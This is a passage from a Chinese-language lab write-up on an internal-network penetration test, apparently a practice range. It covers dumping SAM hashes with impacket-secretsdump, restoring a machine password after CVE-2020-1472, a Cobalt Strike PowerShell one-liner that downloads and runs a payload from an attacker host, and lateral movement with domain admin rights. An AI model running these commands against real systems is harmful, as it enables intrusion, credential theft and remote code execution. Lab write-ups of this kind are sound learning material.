 下载到kali上

```bash
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL
```

![image-20240504215256573](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240504215256573.png)

```
$MACHINE.ACC后半部分的值
4dc34830e6970e81a66b5e8d9ff3ac9f
```

```bash
proxychains4 python3 reinstall_original_pw.py owa 192.168.52.138 4dc34830e6970e81a66b5e8d9ff3ac9f
```

![image-20240504215643844](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240504215643844.png)

恢复成功

### CS速通

尝试直接用蚁剑的虚拟终端进行`web投递`,发现不能成功

使用MSF拿到一个`shell`，发现web投递可以上线

#### web投递

首先生成web投递代码

![image-20240506203651450](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240506203651450.png)

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.170.91:80/a'))"
```

![image-20240506204015004](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240506204015004.png)

成功上线后，进行抓密码哈希，**网络探测**

![image-20240506204222557](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240506204222557.png)

#### 横向移动

然后就是利用**域管理员**权进行横向移动

![image-20240506205445722](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240506205445722.png)

上线三台主机，结束

![image-20240506205209979](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240506205209979.png)

### 总结

> 1.mysql可以利用日志写shell，开启日志，设置日志文件，查询记录写入shell
>
> 2.熟悉了MSF的基本使用，如`migrate`迁移进程，`kiwi`进行抓密码hash
>
> 3.了解了利用`frp`工具搭建`socks`隧道，`impacket`工具简单使用
>
> 4.对`MS17-010`和`CVE-2020-1472`有简单的认识
>
> 5.使用CS的一些功能，CS这个工具还是很强大的
>
> 6.初见内网，感觉内网还是很难的，慢慢学吧
